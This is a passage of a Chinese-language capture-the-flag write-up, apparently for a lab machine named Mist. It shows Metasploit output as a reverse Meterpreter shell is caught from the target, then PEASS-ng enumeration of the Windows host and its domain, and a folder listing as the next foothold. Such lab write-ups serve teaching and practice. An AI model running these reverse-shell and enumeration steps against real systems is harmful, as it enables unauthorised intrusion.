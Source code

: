 就可以收到回连的 shell

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:9999
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Meterpreter session 42 opened (10.10.16.8:9999 -> 10.10.11.17:59040) at 2024-04-07 23:50:39 +0800

meterpreter > sysinfo
Computer        : MS01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : MIST
Logged On Users : 6
Meterpreter     : x64/windows
```

## User - MS01\svc_web

直接上 PEASS-ng 脚本，以下为有价值信息

```plaintext
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
Domain:                    mist.htb
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB5034613
                           [02]: KB5035857
                           [03]: KB5035970
[+] DNS CACHE
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 192.168.100.100
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 10.10.11.17
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 192.168.100.100
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 10.10.11.17
```

### 环境探测

发现一个文件夹 `C:\Common Applications`

```plaintext
Listing: C:\Common Applications
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1118  fil   2021-05-08 16:15:16 +0800  Calculator.lnk
100666/rw-rw-rw-  1175  fil   2021-05-08 06:14:00 +0800  Notepad.lnk
100666/rw-rw-rw-  1171  fil   2021-05-08 06:15:00 +0800  Wordpad.lnk
100666/rw-rw-rw-  190   fil   2024-03-10 17:46:01 +0800  desktop.ini
```
